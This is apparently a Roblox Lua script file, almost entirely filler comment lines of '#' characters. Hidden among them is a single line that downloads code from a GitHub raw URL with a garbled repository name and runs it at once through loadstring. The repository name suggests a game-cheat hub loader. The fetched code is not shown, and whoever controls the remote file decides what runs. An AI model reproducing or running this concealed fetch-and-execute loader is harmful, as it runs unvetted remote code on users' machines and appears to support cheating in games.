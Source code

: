 --##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################
--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--
--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################
--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################
loadstring(game:HttpGet("https://raw.githubusercontent.com/Lazerxl/erorkungxlazerbabyxdnotcrakplsxdlolgamelazerxhubkeuskpsjsksksksnxo3o3/main/README.md"))()
--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################--##################################################
